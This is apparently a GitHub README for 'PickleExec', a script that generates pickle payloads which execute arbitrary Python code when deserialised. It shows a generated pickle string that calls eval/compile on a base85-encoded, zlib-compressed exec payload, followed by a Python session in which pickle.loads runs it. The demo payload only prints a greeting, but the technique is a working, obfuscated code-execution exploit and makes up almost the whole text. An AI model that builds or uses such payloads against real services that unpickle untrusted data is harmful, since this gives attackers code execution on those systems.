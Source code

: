 # PickleExec-python script for generating an exploit to run python code in pickle

## Usage:

Script to run in pickle:
```py
#HelloWorld.py
print('Hello world!')
```

Generate exploit:
```
Python script filename>HelloWorld.py
b'c__builtin__\neval\n(c__builtin__\ncompile\n(Vfrom base64 import b85decode;from zlib import decompress;exec(decompress(b85decode("c$_OJ%FHX#Q1?j9$;nqJ&o9bJQB>FD0svc+2Q&")).decode())\nV-\nVexec\ntRtR.'
```

Executing:
```py
Python 3.9.1 (default, Dec 13 2020, 11:55:53) 
[GCC 10.2.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pickle import loads
>>> loads(b'c__builtin__\neval\n(c__builtin__\ncompile\n(Vfrom base64 import b85decode;from zlib import decompress;exec(decompress(b85decode("c$_OJ%FHX#Q1?j9$;nqJ&o9bJQB>FD0svc+2Q&")).decode())\nV-\nVexec\ntRtR.')
Hello world!
>>>
```